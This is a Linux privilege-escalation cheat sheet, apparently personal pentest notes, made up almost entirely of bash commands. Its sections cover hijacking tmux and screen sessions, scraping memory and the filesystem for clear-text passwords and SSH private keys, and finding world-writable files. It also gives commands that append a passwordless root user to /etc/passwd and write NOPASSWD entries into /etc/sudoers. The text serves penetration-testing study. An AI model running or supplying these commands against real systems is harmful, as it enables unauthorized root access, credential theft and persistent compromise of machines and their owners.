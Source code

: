 ## Sessions

```bash
# can we hijack any shell sessions ?
tmux ls
tmux attach -t tmuxname 
screen -ls
screen-dr sessionname
byobu list-session
```

## Memory

```bash
# some services can save clear-text creds in memory
ps aux # grab the process id
gdb -p SERVICE; gdb PROCID

# in memory passwords
strings /dev/mem -n10 | grep -i PASS
```

## Files permissions

>[!INFO]
>If you fin something interesting, check [**GTFOBins**](https://gtfobins.github.io/).

```bash
# Files containing passwords
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# ssh
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

# World writable files on the system
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

# writable /etc/passwd
# add :
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy

# writable /etc/sudoers
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```
